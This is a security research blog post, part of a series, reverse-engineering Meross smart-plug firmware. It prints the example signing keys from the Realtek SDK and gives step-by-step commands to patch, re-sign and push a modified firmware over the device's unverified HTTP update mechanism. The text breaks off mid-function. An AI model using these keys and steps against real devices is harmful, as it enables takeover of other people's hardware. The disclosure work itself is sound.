







This post is part of a series; you are currently in **Part IV**:

- [Part I: Recon](../meross-part-1)
- [Part II: Mobile App](../meross-part-2)
- [Part III: Smartplug](../meross-part-3)
- [Part IV: Firmware](../meross-part-4) <-- **you are here**
- [Part V: AmebaZII](../meross-part-5)
- [Part VI: Mi casa es su casa (finally)](../meross-part-6)
- [Part VII: Findings Collection](../meross-part-6)

---

Last time I've showed how the device setup/registration as well as general API works. I also took
a look at the hardware and tried some commands in the serial shell. Unfortunately, without the
partition table on the device, it is rather useless. So, let's dive into the firmware and see if
we can *un-brick* the device again.

In the last post I've shared a URL to the *MSS210* plug version `6.2.3`. You can download it yourself and follow this post along if you want.


## Prelude

First things first, to answer the question: *Have you run binwalk on the firmware binary?*

*Yes, it starts with unusual garbage:*
```console
$ xxd MSS210-US_6.2.3.bin | head
00000000: 11e8 2d69 0302 6c5f 891c baeb c98f 6f33  ..-i..l_......o3
00000010: 4979 a076 05e0 d100 2ec7 f071 109c a7d0  Iy.v.......q....
00000020: 6851 3ef8 3e39 6b12 ba05 9a90 0f36 b6d3  hQ>.>9k......6..
00000030: 1d11 fe1c 5d25 eb8a a7c5 5030 7f9c 2405  ....]%....P0..$.
00000040: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000050: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000060: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000070: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000080: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000090: ffff ffff ffff ffff ffff ffff ffff ffff  ................
```

*and binwalk does not find anything:*
```console
$ binwalk MSS210-US_6.2.3.bin
-------------------------------------------------------------
DECIMAL    HEXADECIMAL      DESCRIPTION
-------------------------------------------------------------
618956     0x971CC          SHA256 hash constants, little
                            endian
-------------------------------------------------------------
```

**BUT**, running strings returned some interesting debug related file names. So the file
is most likely not encrypted.
```console
$ strings MSS210-US_6.2.3.bin | grep meross
[...]
../../../component/meross/core/meross_autooff.c
meross
../../../component/meross/core/meross_event.c
meross hi task already init
meross hi task init failed
meross hi task init ok
../../../component/meross/core/meross_iot.c
../../../component/meross/core/meross_protocol.c
meross cloud
../../../component/meross/core/meross_reset.c
../../../component/meross/core/meross_time.c
../../../component/meross/core/meross_timer.c
../../../component/meross/core/meross_upgrade.c
../../../component/meross/core/meross_wdt.c
[...]
```

Where do we go from here? Back to good ol' OSINT and some googling to see if there are
any online documents about firmware update (OTA) files and their structure.

## Firmware Format Investigation

Thankfully there is some documentation about the OTA structure available online in the AmebaIoT Z2 SDK ([AN0500_Realtek_Ameba-ZII_Application_Note](https://github.com/Ameba-AIoT/ameba-rtos-z2/blob/main/doc/AN0500_Realtek_Ameba-ZII_Application_Note.pdf)). It contains a brief overview of the OTA file:

```
┌────────────────────────────────────────┐  ┐
│        OTA Signature (32 bytes)        │  │
├────────────────────────────────────────┤  │
│        Public Key 0 (32 bytes)         │  │
│                  ...                   │  │
│        Public Key 5 (32 bytes)         │  │
├────────────────────────────────────────┤  │
│      SubImage 0 Header (96 bytes)      │  │
├────────────────────────────────────────┤  │
│       SubImage 0 FST (96 bytes)        │  │ SubImage 0 Hash
├────────────────────────────────────────┤  │
│ SubImage 0 Section 0 Header (96 bytes) │  │
├────────────────────────────────────────┤  │
│       SubImage 0 Section 0 Data        │  │
└────────────────────────────────────────┘  │
                  .                         │
                  .                         │
                  .                         │
┌────────────────────────────────────────┐  │
│ SubImage 0 Section N Header (96 bytes) │  │
├────────────────────────────────────────┤  │
│       SubImage 0 Section N Data        │  │
├────────────────────────────────────────┤  ┘
│       SubImage 0 Hash (32 bytes)       │
├────────────────────────────────────────┤
│      SubImage 1 Header (96 bytes)      │
├────────────────────────────────────────┤
│       SubImage 1 FST (96 bytes)        │
├────────────────────────────────────────┤
│ SubImage 1 Section 0 Header (96 bytes) │
├────────────────────────────────────────┤
│       SubImage 1 Section 0 Data        │ <-- raw ELF section
└────────────────────────────────────────┘
                    .
```

To break the structure down:

* Each OTA file consists of several *subimages*.
* Each *subimage* can specify a number of *sections*
* A *section* stores the program text or other additional data.

And then there are some hashes, checksums and headers. Looking for the implementation of the OTA builder in the source code of the SDK leads to [elf2bin.exe](https://github.com/Ameba-AIoT/ameba-rtos-z2/blob/main/component/soc/realtek/8710c/misc/iar_utility/elf2bin.exe). Luckily they didn't strip the program's strings and debug symbols/structs, so decompiling and reversing wasn't much of a challenge.

For instance, the creation of the FST (firmware security table) is described by the function below:
```c
/*
 * Converts the FST configuration object (provided by binary) into the FST structure
 * (generated by Ghidra)
 */
FST * __cdecl _create_fst(FSTCFG *fstcfg)
{
  undefined *puVar1;

  _random_memset(&_gfst,0xff,0x80);
  _gfst._0_1_ = SUB41(fstcfg->enc_algo,0);
  _gfst._1_1_ = SUB41((uint)fstcfg->enc_algo >> 8,0);
  _gfst._2_1_ = SUB41(fstcfg->hash_algo,0);
  _gfst._3_1_ = SUB41((uint)fstcfg->hash_algo >> 8,0);
  _gfst._4_1_ = SUB41(fstcfg->part_size,0);
  _gfst._5_1_ = SUB41((uint)fstcfg->part_size >> 8,0);
  _gfst._6_1_ = SUB41((uint)fstcfg->part_size >> 0x10,0);
  _gfst._7_1_ = SUB41((uint)fstcfg->part_size >> 0x18,0);
  puVar1 = _convert_str2hex((int)fstcfg->validpat,8);
  _memcpy(&_gfst.field_0x8,puVar1,8);
  /* ... other fields ... */
  return &_gfst;
}
```

Using this function and all other definitions, we can infer the memory layout of the missing parts rather easily:

```
         +-------+-------+--------+-------+-----------+---------------+---+---+---+---+----+----+----+----+----+----+
         | 0     | 1     | 2      | 3     | 4         | 5             | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 |
+========+=======+=======+========+=======+===========+===============+===+===+===+===+====+====+====+====+====+====+
| 0x00   | enc_algo: u16 | hash_algo: u16 |          part_size: u32           |          valipat: bytes[8]          |
+--------+--------------------------------+-----------+---------------+---------------------------------------------+
| 0x10   |                                | flags: u8 | key_flags: u8 |                                             |
+--------+--------------------------------+-----------+---------------+---------------------------------------------+
| 0x20   |                                          cipher_key: bytes[32]                                           |
+--------+----------------------------------------------------------------------------------------------------------+
| 0x40   |                                           cipher_iv: bytes[16]                                           |
+--------+----------------------------------------------------------------------------------------------------------+
| 0x50   |                                                                                                          |
+--------+----------------------------------------------------------------------------------------------------------+
```
{: file="FST Memory Layout" }

Wrapping all of that information into code resulted in the [amebazii](https://github.com/MatrixEditor/amebaz2) repository - yes, in Rust, please don't judge me.

### Parsing the Firmware Image

Parsing can be done using the `parse` subcommand of the `ota` commands collection:

```bash
# Parse and verify OTA firmware image
amebazii ota parse '<ota_file>'
```

{: .w-90 .rounded-10 w='1040' h='640' .shadow .img-border }
*change me*

Before examining the complete output of the ClI tool, there is one important detail
displayed in the result above: the *signature* section including the *ota signature*
and a *checksum*.

* `checksum`: Calculated as `uint32` based on the sum of all bytes within the firmware
  image.
* `signature`: hash of the first subimage header. There are two hash algorithms supported: `MD5` and `SHA256`.

Additionally, it is possible to specify a **private key** and apply `HMAC_MD5`/`HMAC_SHA256`. However, how do we actually verify the signature without knowing the
keys?

Let's take a step back and analyze the firmware again. What we know so far is that the
firmware image is cryptographically signed using a private key. Long story short: As it turns out, the
publicly available SDK ships with two example projects, which provide example signing/
encryption keys.

```console
$ grep '68513ef83e396b12ba059a900f36b6d31d11fe1c5d25eb8aa7c550307f9c2405' -ri ameba-rtos-z2 -l
ameba-rtos-z2/project/realtek_amebaz2_v0_example/GCC-RELEASE/amebaz2_bootloader.json
ameba-rtos-z2/project/realtek_amebaz2_v0_example/GCC-RELEASE/amebaz2_firmware_is.json
ameba-rtos-z2/project/realtek_amebaz2plus_v0_example/GCC-RELEASE/amebaz2_bootloader.json
ameba-rtos-z2/project/realtek_amebaz2plus_v0_example/GCC-RELEASE/amebaz2_firmware_is.json
```
{: file="Searching for the public key entry [0]" }

Taking a closer look at the contents of `amebaz2_bootloader.json` reveals not only
one default key, but multiple:

```python
{
  "msg_level": 3,
  # key definitions for the example configuration
  "__comment":"example key",
  "000priv":"A0D6DAE7E062CA94CBB294BF896B9F68CF8438774256AC7403CA4FD9A1C9564F",
  "000pub":"68513EF83E396B12BA059A900F36B6D31D11FE1C5D25EB8AA7C550307F9C2405",
  "001priv":"882AA16C8C44A7760AA8C9AB22E3568C6FA16C2AFA4F0CEA29A10ABCDF60E44F",
  "001pub":"48AD23DDBDAC9E65719DB7D394D44D62820D19E50D68376774237E98D2305E6A",
  "002priv":"58A3D915706835212260C22D628B336D13190B539714E3DB249D823CA5774453",
  "002pub":"FD8D3F3E516D96186E10F07A64B24C7DE736826A24FAFE367E79F1FBB2F1C832",
  # this is the actual signing key (guessable, I know)
  "003priv":"000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E5F",
  "003pub":"8F40C5ADB68F25624AE5B214EA767A6EC94D829D3D7B5E1AD1BA6F3E2138285F",
# --- snip ---
```
{: file="amebaz2_bootloader.json" }

These keys are not only used to sign the firmware images, but also to encrypt them
and provide a way to sign them with a public and private key (PKI-like). It is
obviously, that one should change these values **before** publishing a production
build of a firmware.

### "Resigning" the Firmware

As you have guessed correctly, if we know the keys, we can simply create our own
*signed* firmware and possibly load it onto the Meross device and in result run
our own code. It is as simple as providing the new signing key:

```bash
# Re-sign a firmware image with a custom key
amebazii resign '<ota_in>' '<ota_out>' --same-algo --key '<key>'
```

If we now re-sign the downloaded firmware file with a custom key (here: *002priv*)
and parse it again, we will see an error getting displayed:


{: .w-90 .rounded-10 w='1240' h='740' .shadow .img-border }
*change me*

> **This is a huge risk**. By publishing firmware images that are signed with publicly
> accessible *private keys*, they are prone to modification by arbitrary third parties.
>
> Not only can
> we try to build our own firmware now or modify the existing Meross firmware, it is also possible
> to attack devices in the local network when they are trying to perform a firmware update.
{: .prompt-warning }

To modify an existing firmware image (very simplistic scenario here), we first have to resign the image
so the device would be able to boot it:

```bash
# 1. create modified firmware
# 2. resign the file using default key
amebazii ota resign -i MSS210-US_6.2.3_patched.bin

# 3. verify the newly created checksums and signatures
amebazii ota parse MSS210-US_6.2.3_patched.bin
```

### PoC: Malicious Firmware-Update

Putting everything together: with a simply and small proof of concept it is possible
to show we can modify the existing firmware and possibly running our own code on the
devices:

1. First, create the malicious firmware:
```python
>>> fw = open("MSS315-EU_9.5.52.bin", "rb").read()
>>> fw = bytearray(fw)
>>> fw[0x0012cdd6:0x0012cddb]
b'9.0.0'
>>> fw[0x0012cdd6:0x0012cddb] = b'133.7'
>>> open("MSS315-EU_9.5.52_mal.bin", "wb").write(bytes(fw))
```
   Yes, we simply change the hardware version to `133.7` here. A simple query to the
   device info should return that information to us.

2. Then resign the firmware with the default keys:

  ```console
  $ amebazii ota resign MSS315-EU_9.5.52_mal.bin MSS315-EU_9.5.52_mal_signed.bin
  [0] Subimage: FHWSS
  - Old signature: bcdfa7e99cb35f7d85283aa7a6d30dce78fe6b2e3624ce31bd8f7f116d9d1b22
  - New signature: 12fa0e118ee835cee64f18bdff2209aefef975dbc000521e5adaf80f6a6d3c56

  [1] Subimage: Xip
  - Old signature: 5e45affc21c37c7afe0e8ccc960dab34d83a226d77479ec378cf62ab91c68073
  - New signature: fd5d45c5b6f7b12fb9a99388b44fc5a2043885f195d620add76a8aa5b1f964f2

  [2] Subimage: Xip
  - Old signature: 33af9ab708d51ff65952d710326de87ccb9857c6b3c5017ad56528c4c2c57cf8
  - New signature: 7502d456a2517e49fd4155a486c973f729e25088a27972f9e64cae21fd4d5854
  ```

3. Serve the OTA file (must be port 80, other ports are ignored)
```bash
# start OTA update server on port 80 (serving files in current dir)
sudo mrs ota serve --port 80
```

4. Craft the upgrade payload and sent it to the device:
```json
{
  "upgrade": {
    "url": "http://<HOST>/MSS315-EU_9.5.52_mal_signed.bin"
  }
}
```
   The following command assumes the configured user has already bound the device to
   its account.
  ```bash
# Send payload using SET method
mrs device query -X SET Appliance.Control.Upgrade -P @payload.json --debug
  ```
  Then wait for the device to query the firmware file:
  ```console
# mrs ota serve --port 80
I : Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.37.120 - - "GET /MSS315-EU_9.5.52_mal_signed.bin HTTP/1.1" 200 -
  ```

After the next reboot you should see the new hardware version changed to `133.7` instead
of the original one.
```console
$ mrs device info
I : ==================================================
I : MSS315-US [rtl8720cm]
I : ==================================================
I : Device:
I :  - User-Id: XXXX
I :  - Version: fw[9.5.52] hw[133.7] <-- new version accepted
I :  - UUID   :  XXXX
I :  - MAC    :  XXXX
```

And boom, we now own the device because we can simply run our own code inside the chip. But you might be asking yourself: doesn't Meross uses some kind of integrity verification
of the downloaded firmware file?

Short answer (you can see it with the crafted payload above already): **no**; it gets even better:

#### Missing Firmware Verification

Yes, there's is a MD5 hash transferred to the
device, when you initiate an upgrade through the mobile app. Searching for the factory method
that creates the payload within the mobile app led to the `PackageFactory`, where the MD5 hash of the target file to download is included.

```java
public static BaseBean getUpgradePayload(String url, String md5, /* mcu update params */)
{
    BaseBean payload = createPayload("SET", "Appliance.Control.Upgrade");
    JSONObject upgrade = new JSONObject();
    if (url != null && md5 != null) {
        // build the payload WITH the MD5 hash
        upgrade.put("url", url);
        upgrade.put("md5", md5);
    }
    if (mcuUpdateUrl != null && mcuUpdateMd5 != null) {
        /* add mcu update item */
    }
    payload.addPayload("upgrade", upgrade);
    return payload;
}
```
{: file="com/meross/meross/PackageFactory.java" }


If we take a look at the update
implementation within the firmware (yes, I am foreshadowing here), we can clearly see
that the MD5 value is simply discarded when starting the upgrade task:

```c
/*
 * This "callback" function gets executed when you send a message to the
 * device with the "Appliance.Control.Upgrade" namespace.
 */
int mrs_cb__device_control_upgrade(cJSON *header,cJSON *payload,cJSON **obj_out)
{
  char *method;
  int method_type_id;
  int code;
  void *jsonObject;
  char *url;
  int response;
  cJSON *item;
  cJSON *obj;

  // 1. fetch method and convert it into enum type
  method = json_GetItemString(header,"method");
  method_type_id = mrs_method_type(method);
  if (method_type_id == 2) { // SET = 0x02
    // url = payload["upgrade"]["url"]
    jsonObject = cJSON_GetItem((int)payload,"upgrade");
    url = json_GetItemString(jsonObject,"url");
    if (url == (char *)0x0) {
      return 5000;
    }
    // start task without the "md5" value also shipped with the
    // message (see Java code below)
    mrs_upgrade_start(url);
    response = mrs_protocol_create_thin_package(3,header,0);
  }
  else {
    /* return update status */
  }
  if ((cJSON *)response == (cJSON *)0x0) {
    return -1;
  }
  *obj_out = (cJSON *)response;
  return (int)code;
}
```

> Note: Meross has acknowledged this issue and plans "[...] to implement HTTPS for OTA updates to prevent man-in-the-middle attacks."
{: .prompt-info }


This is where the real fun begins, so stay with me.

---


## Building an ELF

Wouldn't it be great to analyze the firmware binary in more detail? I am talking code-level detail here. If we could generate
an ELF file, it would be much easier to understand the logic of the firmware. On top of that, we
won't need to rebase all addresses again.

So, challenge accepted?

### Understanding the ELF format

> Please keep in mind that I built the ELF generator from scratch (not recommended). Nowadays, you can speed up the process with LLMs. But then, where is the fun?

First, I took a look into the ELF format to know what was necessary to build an ELF from
scratch. If you want to know more about the ELF format, I recommend to read the [Executable and Linkable Format (ELF)](https://flint.cs.yale.edu/cs422/doc/ELF_Format.pdf) specification, which explains
its form in detail.

In order to create a analyzable ELF, there are some aspects that need to be covered. During testing,
I've found [gimli-rs/object](https://github.com/gimli-rs/object) to be very handy when it comes to ELF
building in Rust.

Basically, an object file stores a list of sections with either strings or executable
data in them. Program headers can be used to specify the location of each segment within a binary. If we
recollect the data structure of `Section` within a `SubImage` in the OTA:

```rust
pub struct Section {
    header: SectionHeader,
    /// The header that defines the entry point and loading address of
    /// the section.
    /// --- pub entry_header: EntryHeader, ---
    length: u32,
    load_address: u32,
    /// The entry address, the address to which the system will jump to start execution.
    /// Defaults to `0xFFFF_FFFF` (None), indicating an invalid address.
    entry_address: Option<u32>,
    /// ---

    data: Vec<u8>, // based on header.length
}
```
{: file="Section struct definition" }


We can use the information provided by each section to build a section within the ELF. The
example below constructs the `.xip.code_c` section based on the section within the subimage.
How we know which name to assign will be explained later.

```rust
// Example configuration for XIP subimages
if let Some(section) = subimage.get_section(0) {
  let elf_section = builder.sections.add();
  elf_section.sh_type = object::elf::SHT_PROGBITS; // program data
  elf_section.sh_addralign = 1;
  elf_section.sh_size = section.get_data().len() as u64; // size of the section's data
  elf_section.data = SectionData::Data(section.get_data().to_vec().into()); // code
  elf_section.sh_addr = section.entry_header.load_address as u64; // virtual address
  elf_section.sh_flags = (object::elf::SHF_ALLOC | object::elf::SHF_EXECINSTR) as u64;
  elf_section.name = b".xip.code_c".as_slice().into();
}
// ...
```
{: file="ELF section creation" }

For each of the created sections we have to create a so-called *segment*, which will be used to
determine the location of the section. This will be useful if we want to load the binary into a
disassembler later on. The creation of a segment is straightforward based on the reference I've
linked above:

```rust
let xip_c_text: SectionId; // obtained by section above
let segment = builder.segments.add_load_segment(
    object::elf::PF_R | object::elf::PF_W | object::elf::PF_X,
    /* align= */ 0x10000,
);
segment.p_vaddr = /* start= */ 0x9B000000;
segment.p_paddr = /* start= */ 0x9B000000;
segment.p_offset = /* current-file-offset= */ offset;
segment.append_section(data.builder.sections.get_mut(xip_c_text));
offset += &options.xip_c_text.len();
```
{: file="ELF segment creation" }

> If you are interested in how to build the final object file, the full implementation of
> the "relinking" process is here: [relink.rs](https://github.com/MatrixEditor/amebaz2/blob/master/src/bin/cli/ota/relink.rs)
{: .prompt-tip }

### Building the object file

You might have wondered how we know where to put the created sections within the virtual
address space within memory. In the code snipped above, there is the start address of the
`XIP_FLASH_C` (cipher) section. Without knowledge of the start address, we can't infer the
final position within memory.

Again, Ameba IoT was very kind to include a linking file within the example projects for the
amebaz2 RTOS:

```c
MEMORY
{
  /* The vector table, it must start with 256 bytes aligned address */
  VECTORS_RAM (rwx)   : ORIGIN = 0x10000000, LENGTH = 0x100000A0 - 0x10000000

  /* 0x100000A0 ~ 0x10000480 reserved for ROM code */

  /* RAM functions entry table */
  RAM_FUN_TABLE (rwx) : ORIGIN = 0x10000480, LENGTH = 0x100004F0 - 0x10000480

  /* RAM image Signature */
  RAM_IMG_SIGN (rwx)  : ORIGIN = 0x100004F0, LENGTH = 0x10000500 - 0x100004F0

  /* Internal RAM for program data & text */
  DTCM_RAM (wrx)      : ORIGIN = 0x10000500, LENGTH = 0x1003FA00 - 0x10000500

  /* 0x1003FE70 - 0x1003FA00 is reserved for ROM(NS) code */

  /* External PSRAM for text, rodata & data */
  PSRAM (rwx)         : ORIGIN = 0x60000000, LENGTH = 0x60400000 - 0x60000000
  /* Bluetooth Trace */
  BTRACE (rx)         : ORIGIN = 0x00800000, LENGTH = 0x00C00000 - 0x00800000

  /* Flash memory for XIP */
  /* XIP Chiper section: TEXT/RODATA in this section can be encrypted (decrypt by SCE) */
  XIP_FLASH_C (rx)    : ORIGIN = 0x9B000000, LENGTH = 0x9B800000 - 0x9B000000
  /* XIP Plantext section: RODATA in this section will not be encrypted */
  XIP_FLASH_P (rx)    : ORIGIN = 0x9B800000, LENGTH = 0x9BFF0000 - 0x9B800000
}
```

Using this memory layout we can infer the start addresses of each segment within the final
object file. The final command and output looks like this:

```bash
# Build an object file from an OTA image
amebazii ota relink '<ota_file>' '<elf_file>'
```
{: file="relink command" }

{: .w-90 .rounded-10 w='1020' h='740' .shadow .img-border }

{: .w-90 .rounded-10 .right .shadow .img-border }
*Note: I used the `--cap-length` option here to prevent oversized segments*

Loading the newly created in Ghidra will result in all segments being loaded and
displayed correctly. Based on the table view above, each segment was placed to the
right position in memory using the addresses from the linker script above.

So why does this matter exactly? Analyzing the raw OTA image might be done with a few tricks
in Ghidra. However, fixing all references and strings might cost a lot of time. Removing that
extra bit of time saves some energy on the more interesting reverse engineering tasks.

The following image illustrates a simple view on the strings parsed by
Ghidra after importing the binary.

{: .w-90 .rounded-10 w='820' h='740' .shadow .img-border }
*Strings with XREFS to their functions (Ghidra) after importing the binary*

---

## Analyzing the firmware/ELF

After having built a working object file, I was able to start reverse
engineering the firmware itself as an ordinary program. Going back to the
beginning of this blog post series my initial research question was to
examine whether there is any kind of backdoor employed within the firmware.

My first idea was to look into the local API request verification mechanism.
I started by going through all defined strings by searching for `"sign"` and
`"fail"`.  Luckily, there was a string defined which proved to be the right
track: `"\n\r[%s] protocol package sign error"`. Following the XREF to the
function defintion I was greeted with a lot of unknown functions:

```c
undefined4 FUN_9b028058(undefined4 param_1,undefined4 *param_2)
{
  /* -- snip -- */
  iVar5 = FUN_9b00a70e(param_1,"header");
  iVar6 = FUN_9b00a70e(param_1,"payload");
  if ((iVar5 != 0) && (iVar6 != 0)) {
    iVar7 = FUN_9b027dfc(iVar5);
    if (iVar7 == 0) {
      pcVar8 = "\n\r[%s] protocol package msgid error";
    }
    else {
      iVar7 = FUN_9b027e74(iVar5);
      if (iVar7 == 0) {
        FUN_9b000508("\n\r[%s] protocol package sign error","MRS-PROTOCOL");
        FUN_9b069968(&DAT_100015f4);
// ...
```
{: file="FUN_9b028058, or mrs_protocol_handle_package"}

Before actually analyzing the signature verification function, which seems to be
`FUN_9b027e74`, I want to expand a little bit on how to use the information of the
AmebaZ2 SDK and other information derived from strings to understand the structure
of the function even further.

### Applying known symbols

The code snipped above includes other functions unknown just yet. However, using simple
educated guesses and some tricks around symbols and types, we can infer the actual names
of (and functionality) of them.

Let's start with the first one (`FUN_9b00a70e`): We know that Meross uses JSON in their
protocol/messages. If we filter for `"json"` within the defined strings of the firmware,
there are some function names that hint at the library used for parsing JSON:

```bash
# --- snip ---
9b812a8e  mrs_get_report_json	"mrs_get_report_json"	ds
9b812b0a  mrs_get_relay_json	"mrs_get_relay_json"	ds
9b812c76  %s() cJSON_CreateObject failed "%s() cJSON_CreateObject failed\n"	ds
9b80dc1f  [%s err] %s, %d, %s: parse json failed!	"\n\r[%s err] %s, %d, %s: parse json failed!"	ds
9b810369  [%s err] %s, %d, %s: json parse error	"\n\r[%s err] %s, %d, %s: json parse error"	ds
9b810391  [%s err] %s, %d, %s: json format error	"\n\r[%s err] %s, %d, %s: json format error"	ds
9b8103ba  [%s err] %s, %d, %s: cJSON_PrintUnformatted failed	"\n\r[%s err] %s, %d, %s: cJSON_PrintUnformatted failed"	ds
9b80ecb5  [%s err] %s, %d, %s: cJSON_CreateObject failed	"\n\r[%s err] %s, %d, %s: cJSON_CreateObject failed"	ds
9b80ece6  [%s err] %s, %d, %s: cJSON_CreateArray failed	"\n\r[%s err] %s, %d, %s: cJSON_CreateArray failed"	ds
```

Looking at the function definitions of the cJSON[^ft_cjson_fn], there is a function named
`cJSON_GetObjectItem` that returns the value of a named property, much like `obj["key"]`.
In order to use the new function we can either create a new typedef that assigns the `void`
data type to the required `cJSON` struct or define the struct in Ghidra ourselfs:

There are now two ways to add the struct to the current data types:

1. Create a struct by hand:

   {: .w-90 .rounded-10 w='420' h='440' .shadow .img-border }
   *cJSON struct definition*

2. Parse the C source header file and import the parsed data types into the currently opened
   data type archvives (*File* -> *Parse C Source...*).

After updating the signature of the target function and renaming assiciated variables, the
code becomes more obvious:

```c

undefined4 FUN_9b028058(cJSON *package,undefined4 *param_2)
{
  cJSON *header;
  cJSON *payload;
  /* -- snip -- */
  header = cJSON_GetObjectItem(package,"header");
  payload = cJSON_GetObjectItem(package,"payload");
  if ((header != (cJSON *)0x0) && (payload != (cJSON *)0x0)) {
    iVar3 = FUN_9b027dfc(header);
    if (iVar7 == 0) {
      pcVar8 = "\n\r[%s] protocol package msgid error";
    }
    else {
      iVar7 = FUN_9b027e74(header);
      if (iVar7 == 0) {
        FUN_9b000508("\n\r[%s] protocol package sign error","MRS-PROTOCOL");
        FUN_9b069968(&DAT_100015f4);
// ...
```

Next up there is `FUN_9b000508`, which seems like a classic `printf` function. However,
when looking at the pseudo C-code, it seems that the function acts like a mere delegate
to another:

```c
void FUN_9b000508(undefined4 param_1,undefined4 param_2,undefined4 param_3,undefined4 param_4)
{
  undefined4 uStack_c = param_2;
  undefined4 uStack_8 = param_3;
  undefined4 uStack_4 = param_4;
  /* delegate to function - its pointer is stored at 0x0005f678 */
  (*_DAT_0005f678)(_DAT_0005f65c,0,param_1,&uStack_c,param_1,&uStack_c);
}
```

Now we can either infer that this function is `printf`, **OR** dig a liitle bit deeper. I chose
to go back to the public SDK and found `romsym_is.so`[^ft_az2_romsym], which defined addresses
for stub function structures/symbols in the ROM area.

```c
SECTIONS
{
  /* -- snip -- */
  stdio_printf_stubs = 0x5f650;
  __rom_stubs_utility_ns = 0x5f780;
  __rom_stubs_wlan = 0x5f7d0;
  /* -- snip -- */
}
```
{: file="component/soc/realtek/8710c/misc/bsp/ROM/romsym_is.so" }

Our address pointer is located directly after the `stdio_printf_stubs` functions - the struct
definition can be taken from the source code (or another way[^ft_dtypes]). After loading the
new types into the current program in Ghidra (and created another memory region for the ROM
code) and applying the type to the referenced address, the code made a lot more sense:

```c
/* renamed from FUN_9b000508 */
int __wrap_printf(char *fmt,...)
{
  int uVar1 = (*stdio_printf_stubs.printf_core)(
    (printf_putc_t)stdio_printf_stubs.stdio_port_sputc,
    (void *)0x0,
    fmt,
    (va_list)&uStack_c
  );
  return uVar1;
}
```

If we go along with the new structures, knowledge about the cJSON library and some
educated guesses, it is possible to get a realistic representation of the verification
function.

### Putting it all together: mrs_protocol_verify

The complete result of the verification function is given below. From what I can tell,
there is no backdoor within the verification mechanism in place.

```c

bool mrs_protocol_verify_sign(cJSON *header)
{
  char *msg_id, *namespace, *in_sign, *shared_key;
  int timestamp;
